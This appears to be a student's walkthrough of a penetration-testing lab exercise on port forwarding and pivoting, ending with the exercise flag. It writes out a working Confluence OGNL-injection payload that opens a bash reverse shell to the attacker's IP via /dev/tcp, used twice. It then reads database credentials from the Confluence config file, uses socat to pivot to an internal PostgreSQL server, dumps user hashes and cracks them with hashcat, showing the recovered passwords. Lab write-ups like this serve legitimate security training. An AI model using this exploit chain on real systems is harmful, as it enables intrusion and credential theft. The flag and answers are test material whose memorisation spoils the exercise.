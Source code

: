 # Questions 1
Follow the steps in this section to set up a port forward and gain access to the confluence database on PGDATABASE01 using psql from your Kali machine. Crack the password of the database_admin user. What is the plain text password of this account?

# To gain access to CONFLUENCE01, we need to leverage the command execution vulnerability in the Confluence web application to get a reverse shell.

nc -lvnp 4444
curl -v http://192.168.155.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.237/4444%200%3E%261%27%29.start%28%29%22%29%7D/

# After decode
/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/192.168.45.237/4444 0>&1').start()")}/

# Check the listening port 4444 working
ip addr
...
ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:ab:a8:23 brd ff:ff:ff:ff:ff:ff
    inet 192.168.155.63/24 brd 192.168.155.255 scope global ens192
       valid_lft forever preferred_lft forever
ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:ab:75:90 brd ff:ff:ff:ff:ff:ff
    inet 10.4.155.63/24 brd 10.4.155.255 scope global ens224
...
# so there is two interface
ens192 192.168.155.63 # facing to WAN
ens224 10.4.155.63 # facing to DMZ

ip route
default via 192.168.155.254 dev ens192 proto static 
10.4.155.0/24 dev ens224 proto kernel scope link src 10.4.155.63 
192.168.155.0/24 dev ens192 proto kernel scope link src 192.168.155.63 

cat /var/atlassian/application-data/confluence/confluence.cfg.xml
...
 <property name="hibernate.connection.password">D@t4basePassw0rd!</property>
    <property name="hibernate.connection.url">jdbc:postgresql://10.4.50.215:5432/confluence</property>
    <property name="hibernate.connection.username">postgres</property>
...

# Now we are ready to create a port forward. We have an idea of how we want it to work: CONFLUENCE01 should listen on a port on the WAN interface and forward all packets received on this port to the PGDATABASE01 on the internal subnet. We want all the packets that we send to this port to be forwarded by CONFLUENCE01 to TCP port 5432 on PGDATABASE01.

# On CONFLUENCE01, we'll start a verbose (-ddd) Socat process. It will listen on TCP port 2345 (TCP-LISTEN:2345), fork into a new subprocess when it receives a connection (fork) instead of dying after a single connection, then forward all traffic it receives to TCP port 5432 on PGDATABASE01 (TCP:10.4.50.215:5432)

socat -ddd TCP-LISTEN:6666,fork TCP:10.4.155.215:5432

# Now we can run psql on our Kali machine, specifying that we want to connect to CONFLUENCE01
psql -h 192.168.155.63 -p 6666 -U postgres
password: D@t4basePassw0rd!

# We can access to confluence database by using
\c confluence
# then
select * from cwd_user
...
alot of credentials
...

# We receive several rows of user information. 
# save it to local Kali machine 
nano hashes 
hashcat --help | grep -i "Atlassian" 
12001 | Atlassian (PBKDF2-HMAC-SHA1)  | Framework

hashcat -m 12001 hashes /usr/share/wordlists/fasttrack.txt 
...
{PKCS5S2}aBZZw3HfmgYN3Dzg/Pg7GjagLdo+eRg+0JCCVId/KyNT4oVlNbhWPJtJNazs4F5R:Welcome1234
{PKCS5S2}vCcYx3LxTYB2KH2Sq4wLNLdAcS+4lX/yTQrvBJngifUEXcnIUHEwW0YnOe86W8tP:P@ssw0rd!
{PKCS5S2}ueMu+nTGBtfeGXGBlXXFcJLdSF4uVHkZxMQ1Bst8wm3uhZcDs56a2ProZiSOk2hv:sqlpass123
...

# Hashcat returns passwords for the database_admin, hr_admin and rdp_admin users

# We find PGCATABASE01 is also running an SSH server. Lets create a new port forwarding to CONFLUENCE01 and allow us SSH directly from our Kali to PGDATABASE01

nc -lvnp 6677
curl -v http://192.168.155.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.237/6677%200%3E%261%27%29.start%28%29%22%29%7D/

confluence@confluence01:/opt/atlassian/confluence/bin$ socat -ddd TCP-LISTEN:6622,fork TCP:10.4.155.215:22

ssh database_admin@192.168.155.63 -p6622
password: sqlpass123

Questions 2
Capstone Exercise: Use the password found in the previous question to create a new port forward on CONFLUENCE01 and gain SSH access to PGDATABASE01 as the database_admin user. What's the value of the flag found in /tmp/socat_flag on PGDATABASE01?

cat /tmp/socat_flag
OS{24126cb5839a0f59517dd5741dfca485}






